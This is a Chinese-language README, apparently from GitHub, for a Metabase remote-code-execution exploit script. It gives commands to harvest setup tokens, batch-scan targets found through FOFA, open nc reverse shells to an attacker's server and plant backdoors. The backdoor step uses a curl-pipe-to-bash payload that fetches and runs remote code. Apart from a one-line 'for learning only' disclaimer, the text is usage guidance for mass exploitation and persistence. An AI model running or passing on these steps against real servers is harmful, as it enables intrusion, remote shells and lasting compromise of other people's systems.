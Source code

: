 # metabase_exp
metabase rce
## 仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门


获取token

python3 metabase_exp.py poc -u xxx.com

批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段

python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json



尝试nc反弹

python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口

nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了

python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口



尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行

python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -payload 你的payload




太菜了写的不是很好啊哈哈


我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
